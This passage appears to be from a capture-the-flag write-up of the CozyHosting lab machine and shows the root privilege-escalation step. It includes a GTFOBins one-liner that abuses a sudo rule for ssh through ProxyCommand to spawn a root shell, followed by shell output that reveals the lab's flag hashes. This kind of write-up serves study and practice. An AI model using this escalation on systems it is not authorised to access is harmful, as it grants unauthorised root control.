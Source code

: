 Now lets see how this user can lead me to root user →

```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
josh@cozyhosting:~$
```
{: .nolineno}
{: .nolineno}

Now with GTFObin help I can exploit this one →

![Untitled](/Vulnhub-Files/img/CozyHosting/Untitled%2010.png)

```bash
josh@cozyhosting:~$ sudo -u root ssh -o ProxyCommand=';bash 0<&2 1>&2' x
root@cozyhosting:/home/josh# whoami
root
root@cozyhosting:/home/josh# id
uid=0(root) gid=0(root) groups=0(root)
root@cozyhosting:/home/josh# cd /root
root@cozyhosting:~# ls -al
total 40
drwx------  5 root root 4096 Aug 14 13:37 .
drwxr-xr-x 19 root root 4096 Aug 14 14:11 ..
lrwxrwxrwx  1 root root    9 May 18 15:00 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Aug  8 10:10 .cache
-rw-------  1 root root   56 Aug 14 13:37 .lesshst
drwxr-xr-x  3 root root 4096 May 11 19:21 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
lrwxrwxrwx  1 root root    9 May 18 15:00 .psql_history -> /dev/null
-rw-r-----  1 root root   33 Sep 10 08:39 root.txt
drwx------  2 root root 4096 May  9 18:49 .ssh
-rw-r--r--  1 root root   39 Aug  8 10:19 .vimrc
root@cozyhosting:~# cat root.txt
c53f157a8912c99b2e83fb9e54578d1d
root@cozyhosting:~# cat /home/josh/user.txt
ecc16918dd79dc8a3957ff9fa3ef914e
root@cozyhosting:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:fd:e8 brd ff:ff:ff:ff:ff:ff
```